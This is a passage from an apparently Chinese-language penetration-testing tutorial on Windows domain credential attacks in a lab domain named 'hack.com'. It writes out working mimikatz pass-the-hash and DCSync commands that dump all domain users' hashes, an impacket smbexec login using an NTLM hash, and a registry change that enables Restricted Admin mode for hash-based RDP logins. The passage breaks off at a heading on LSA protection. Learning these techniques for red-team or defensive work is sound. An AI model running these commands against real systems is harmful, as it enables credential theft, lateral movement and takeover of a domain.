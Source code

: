 ![dcsyncdump](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/dcsyncdump.png)

+ 传递阶段

  > mimikatz有自带的hash传递功能，执行以下命令使用已抓到的hash进行传递

  ```shell
  #通过域管用户的hash进行传递
  sekurlsa::pth /user:Administrator /domain:hack.com /ntlm:ecf2148441c0ef24bdeebc416c876490
  ```

  攻击后会开启一个命令行，在其中可以访问DC的CIFS服务

  > 通过其他支持pth的项目进行传递，例如psexec，通过psexec来pth能够直接登录目标主机

```shell
python smbexec.py -hashes  :c17336b6c2ea715e02e8bbd04c91e543 hack.com/Administrator@192.168.30.10
#python smbexec.py -hashes LM HASH:NTLM HASH <domain>/<username>@<IP>
```

通过impacket中的项目能够直接登录远程主机

+ 通过pth登录远程桌面

> win server2012 R2以上的版本采用新版RDP，在受限管理员模式下，可以直接使用hash登录远程桌面，不需要提供明文密码
>
> 执行以下命令开启受限管理员模式
>
> ```powershell
> reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
> ```
>

使用mimikatz进行传递攻击

```shell
privilege::debug sekurlsa::pth /user:Administrator /domain:hack.com /ntlm:ecf2148441c0ef24bdeebc416c876490 "/run:mstsc.exe /restrictedadmin"
```

### 无法直接抓取的情况

#### DEBUG权限被移除

mimikatz中抓取hash的方法，大部分都需要获得debug权限，一般管理员账户拥有debug权限，如果将debug权限被移除，则需要debug权限的工具均无法正常工作，如果上传的mimikatz无法获得debug权限，可以选用不需要debug权限就能进行hashdump的dcsync技术，因为该技术是通过像域控发起请求，并非是本地操作

```shell
#dump指定用户的信息，包括hash值
mimikatz.exe "lsadump::dcsync /domain:hack.com /user:hack\Administrator" exit
#导出域内所有用户的信息，包括hash值
mimikatz.exe "lsadump::dcsync /domain:hack.com /all" exit
mimikatz.exe "lsadump::dcsync /domain:hack.com /all /csv" exit
```

#### LSA保护
